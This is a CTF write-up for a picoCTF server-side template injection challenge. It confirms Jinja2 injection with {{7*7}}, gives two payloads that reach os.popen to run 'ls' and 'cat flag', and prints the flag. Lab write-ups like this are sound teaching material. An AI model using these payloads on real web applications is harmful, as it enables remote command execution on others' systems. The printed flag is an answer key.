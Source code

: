 ﻿##  CTF Name: SSTI 1 (Easy)

### Description:
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps

### Hint:
Server Side Template Injection

### Analysis:
The challenge hints at **Server-Side Template Injection (SSTI)**. Testing `{{7*7}}` outputs `49`, confirming that the site uses **Jinja2** and is vulnerable to SSTI.

### Solution:
1. **Confirm SSTI:**
Submit:```{{7*7}}```
![f]()
The output confirms template rendering.
2. **Leverage Jinja2 internals:**
Use a payload to execute commands:
```{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
![f]()
3. **Retrieve the flag:**
Locate and read the flag using `{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
`.
![f]()
### Flag:
**picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}**
